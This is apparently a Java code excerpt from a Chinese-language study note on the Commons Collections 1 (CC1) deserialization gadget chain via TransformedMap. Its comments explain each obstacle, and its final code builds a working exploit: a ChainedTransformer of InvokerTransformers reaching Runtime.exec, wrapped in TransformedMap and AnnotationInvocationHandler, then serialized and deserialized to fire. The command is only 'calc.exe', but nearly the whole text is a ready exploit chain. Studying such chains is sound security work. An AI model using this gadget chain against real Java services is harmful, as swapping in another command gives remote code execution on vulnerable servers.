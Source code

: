 cc1的`TransformedMap`和`LazyMap`两种方式

```java
public static void TransformedMap(String[] args) throws Exception {
    // 目前有三个亟待解决的问题
    // ①：Runtime 对象不可序列化，需要通过反射将其变成可以序列化的形式。
    // ②：setValue() 的传参，是需要传 Runtime 对象的；而在实际情况当中的 setValue() 的传参是不可控的一坨
    // ③：解决上文提到的，要进入 setValue 的两个 if 判断

//        Class c = Runtime.class;
//        Method method = c.getMethod("getRuntime");
//        Runtime runtime = (Runtime) method.invoke(null, null);
//        Method run = c.getMethod("exec", String.class);
//        run.invoke(runtime, "calc");

//        InvokerTransformer it0 = new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null});
//        InvokerTransformer it1 = new InvokerTransformer("invoke", new Class[]{Object.class,Object[].class},new Object[]{null,null});
//        InvokerTransformer it2 = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"});
//        Method getRuntimeMethod = (Method) it0.transform(Runtime.class);
//        Runtime runtime = (Runtime) it1.transform(getRuntimeMethod);
//        it2.transform(runtime);

    // use ChainedTranformer
//        Transformer[] transformers = new Transformer[]{
//                new ConstantTransformer(Runtime.class), //  不需要给transform传特定的Runtime.class，传什么都可以
//                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
//                new InvokerTransformer("invoke", new Class[]{Object.class,Object[].class},new Object[]{null,null}),
//                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"})
//        };
//        ChainedTransformer c = new ChainedTransformer(transformers);
//        c.transform(null);

    // final exp
    // try to pass two if condition
    Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(Runtime.class), //  不需要给transform传特定的Runtime.class，传什么都可以
            new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
            new InvokerTransformer("invoke", new Class[]{Object.class,Object[].class},new Object[]{null,null}),
            new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"})
    };
    ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
    HashMap<Object, Object> map = new HashMap<>();
    map.put("value","bbb"); // 随便put点东西不然这个for (Map.Entry<String, Object> memberValue : memberValues.entrySet())就进不去了
    // String name = memberValue.getKey(); 要求键名为Target的成员变量名
    Map<Object, Object> evilMap = TransformedMap.decorate(map, null, chainedTransformer);
    Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
    Constructor iconstruct = c.getDeclaredConstructor(Class.class, Map.class);
    iconstruct.setAccessible(true);
    // iconstruct.newInstance(Override.class, evilMap);
    // type, which is Override, has not member.
    // so we try another Class Target, which has single member named value (ElementType[] value();)
    Object o = iconstruct.newInstance(Target.class, evilMap);
    unserialize(serialize(o));
}
```
